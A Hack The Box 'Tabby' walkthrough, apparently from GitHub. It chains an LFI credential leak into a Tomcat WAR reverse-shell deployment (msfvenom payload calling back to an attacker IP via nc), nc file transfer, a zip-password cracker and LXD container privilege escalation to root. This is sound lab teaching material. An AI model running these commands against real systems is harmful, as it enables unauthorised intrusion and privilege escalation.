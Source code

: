 # Hack The Box - Tabby

## This is my writeup and walkthrough for tabby from Hack The Box.


![cover](https://user-images.githubusercontent.com/36403473/86299941-cbe51a80-bc01-11ea-801b-3c4a276e6143.jpg)

## an easy linux machine with some vulnerable LFI 

## `Enumeration`
   
#### 1-Nmap 
  `nmap -sC -sV 10.10.10.194`

```
theblock@python-4004:~$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-02 01:22 EET
Nmap scan report for megahosting.htb (10.10.10.194)
Host is up (0.47s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
###### My focus was on Port 80 `http Apache httpd 2.4.41 ((Ubuntu))` ,and 8080 running a http Apache called `Tomcat`. 

#### 2-website

![Screenshot from 2020-07-02 01-34-45](https://user-images.githubusercontent.com/36403473/86300983-ecfb3a80-bc04-11ea-81d9-2d1be55f2920.png)

##### Ckeck site very well moving to `news` page founding  paramter `file` it maybe vulnerable

![Screenshot from 2020-07-02 01-33-13](https://user-images.githubusercontent.com/36403473/86301124-4cf1e100-bc05-11ea-906c-1b77164f5826.png)

##### First i thought it may be `LFI` and it was right expectation but let’s add 10.10.10.194 to our `/etc/hosts` file  

![Screenshot from 2020-07-02 02-09-29](https://user-images.githubusercontent.com/36403473/86302713-c8ee2800-bc09-11ea-8f35-3453aedf8d99.png)
 
##### the second step to exploit but i need more information now the role of port `8080`
#####   checking this port `10.10.10.194:8080`


![Screenshot from 2020-07-02 02-23-24](https://user-images.githubusercontent.com/36403473/86303303-bd9bfc00-bc0b-11ea-8ed6-33fa5e11bbab.png)
 
The `CATALINA_HOME` and `CATALINA_BASE` environment variables are used to 
specify the location of Apache Tomcat and the location of its active configuration, respectively.

this information is very important `Users are defined in /etc/tomcat9/tomcat-users.xml.` okey lets see our users using `CATALINA_HOME`
i think its very important to see Apache Tomcat 8 docs ,googling and lets try to get usrs from `tomcat-users.xml`
[Tomcat docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html)


![lfi](https://user-images.githubusercontent.com/36403473/86301222-95110380-bc05-11ea-8f59-d41dbaa6f153.png)
 very good i have `tomcat` password `$3cureP4s5w0rd123!`
no i can acess `The host-manager` but i dont have any authorization to  upload any shell on this server so lets googling maybe find way.
i found an exploitaion to this server [Tomcat exploitaion](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)
now from `LFI` we can get `RCE` 
### Exploitation
 
 Exploitation is  to Generate `.war` Format Backdoor,We can use msfvenom for generating a `.war` format backdoor for java/jsp payload, all you need to do
 is just follow the given below syntax to create a `.war` format file and then run Netcat listener.
 ```
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.120 LPORT=1234 -f war > kk.war
 nc -lvp 1234
 ```
 Deploy A New Application from a Local Path from this path `http://10.10.10.194:8080/manager/text/deploy?path=filename` this mentioned in the documentation 
 
 using curl command to send `.war` file to server 
```
curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file kk.war "http://10.10.10.194:8080/manager/text/deploy?path=/kk.war"
```
checking context `http://10.10.10.194:8080/manager/text/deploy?config=file:/path/context.xml`

![server file](https://user-images.githubusercontent.com/36403473/86305635-6cdbd180-bc12-11ea-8ace-28c853d22d85.jpg)
###### `kk.war` is uploaded successfully 

![connect2](https://user-images.githubusercontent.com/36403473/86305804-deb41b00-bc12-11ea-9efc-bfa48c11f726.jpg)

connected to machine and upgrade to tty shell  `python3 -c 'import pty; pty.spawn("/bin/bash")'` or to upgrade to full  tty shell use this commands 

 ``` 
    /usr/bin/script -qc /bin/bash /dev/null
     Ctrl-Z
     stty raw -echo
     fg
     Ctrl-Z
    
````
### Privilege Escalation
#### 1- Own User
in this step lets discover system and search for any things that seem important to escalate your privilege
in /home/ash i couldnt go inside lets look deeper 
in `/var/www/html/files` i found `16162020_backup.zip` that need password to be unziped so i copy this zip file from target machine to my machine by nc command 
``` 
target machine 
nc 10.10.16.120 4000 > 16162020_backup.zip
my machine 
nc -l -p 4000 < 16162020_backup.zip
````
i develop simple python code to crack this zip file password 

```
#!/usr/local/bin/python3
from tqdm  import tqdm 
import zipfile
import sys

wordlist = sys.argv[2]
zip_file = sys.argv[1]

zip_file = zipfile.ZipFile(zip_file)
n_words = len(list(open(wordlist, "rb")))

print("Total passwords to test:", n_words)
with open(wordlist, "rb") as wordlist:
    for word in tqdm(wordlist, total=n_words, unit="word"):
        try:
            zip_file.extractall(pwd=word.strip())
        except:
            continue
        else:
            print("[+] Password found:", word.decode().strip())
            exit(0)
print("[!] Password not found, try other wordlist.")
```
the password `admin@it`
And now we owned user ash:
getting usr.txt 

![Screenshot from 2020-07-02 03-54-33](https://user-images.githubusercontent.com/36403473/86308013-7700ce80-bc18-11ea-95c4-3cd1369c46d8.png)

#### 2- Own Root
This step took me a lot of time, although it was not difficult
but finally i own machine lets explian the exploit 
on seeig autherization by `id` 

![Screenshot from 2020-07-02 04-00-23](https://user-images.githubusercontent.com/36403473/86308347-40778380-bc19-11ea-93e7-e5d5122d8379.png)

A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. 
This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. 
The vulnerability exists even with the LXD snap package.
[Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

#### Steps to be performed on the attacker machine:
1-Download build-alpine in your local machine through the git repository. 

2-Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.

3-Transfer the tar file to the host machine

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

```
i upload all files on my localhost 

![Screenshot from 2020-06-30 17-24-49](https://user-images.githubusercontent.com/36403473/86310114-8afaff00-bc1d-11ea-856b-551651e35021.png)

on the target machine 
`wget  http://10.10.16.120/lxd-alpine-builder-master/alpine-v3.12-x86_64-20200630_1546.tar.gz` on `/tmp` or /`home`

After the image is built it can be added as an image to LXD as follows:
`lxc image import alpine-v3.12-x86_64-20200630_1546.tar.gz --alias myimage`
`lxc image list`
![lxc](https://user-images.githubusercontent.com/36403473/86310258-e62cf180-bc1d-11ea-92a5-898b77719e79.png)

 ```
 lxc init myimage ignite -c security.privileged=true
 lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
 lxc start ignite
 lxc exec ignite /bin/sh
 id
````
Once inside the container, navigate to /mnt/root to see all resources from the host machine.
After running the bash file. We see that we have a different shell, it is the shell of the container. 
This container has all the files of the host machine. So, we enumerated for the flag and found it.

```
mnt/root/root
ls
flag.txt
cat flag.txt
```
![root](https://user-images.githubusercontent.com/36403473/86310532-a1ee2100-bc1e-11ea-8bb1-bf272f231d6c.png)

#### now  we owned machine 

